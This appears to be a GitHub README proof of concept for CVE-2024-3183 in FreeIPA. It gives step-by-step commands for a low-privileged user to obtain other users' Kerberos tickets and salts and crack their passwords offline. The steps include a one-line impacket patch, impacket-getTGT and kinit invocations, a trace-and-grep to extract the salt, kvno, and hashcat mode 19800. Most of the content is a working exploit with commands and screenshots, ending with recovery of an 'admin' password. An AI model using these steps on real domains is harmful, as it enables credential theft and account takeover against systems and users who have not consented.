 # CVE-2024-3183-POC
POC for CVE-2024-3183 (FreeIPA Rosting)

Impact:
A low-privileged user can obtain a hash of the passwords of all domain users and perform offline brute force (kerberoasting).

Patch impacket-getTGT:
1) Add `decoder.decode.defaultErrorState = stGetValueDecoderByTag` to `impacket/krb5/kerberosv5.py`.
2) Enjoy!

## POC1:
1) Add `decoder.decode.defaultErrorState = stGetValueDecoderByTag` to `impacket/krb5/kerberosv5.py`.
2) You can use impacket-getTGT whith `-service` option and `-debug` option for get salt in one command.
`impacket-getTGT test.local/user -debug -service admin`

## POC2:
1) First, let's request a TGT ticket for an already compromised user "admin".
`kinit user`
![foto1](https://github.com/user-attachments/assets/c7935c7f-d978-4e34-b309-eba1c2d9c7db)
2) Secondly, we will find out the salt of the "admin" user:
`printf "%b" "0\n" | KRB5_TRACE=/dev/stdout kinit admin | grep salt`
![foto2](https://github.com/user-attachments/assets/32a7b926-ed49-4a4f-81b6-91e06a86c04a)
3) Get TGS for "admin":
`kvno admin`
![foto](https://github.com/user-attachments/assets/71f31595-ca1b-492d-8ef4-98071c11e85b)
![foto3](https://github.com/user-attachments/assets/6b4bcc3a-3b2d-4b5f-abf9-dd69853b844c)
5) Use python script (or hashcat mod 19800 with specific salt) for brute force TGS
![foto4](https://github.com/user-attachments/assets/6fb2983a-cd93-4858-8f87-93cde0a7c20e)

1 - TGS,
2 - SALT,
3 - Passwords.

5) Congratulations, we now have the user password “admin”.

## POC3:

1) You can use kinit for one move:
`kinit -S target user`

and you get TGT who encripted by target user key.


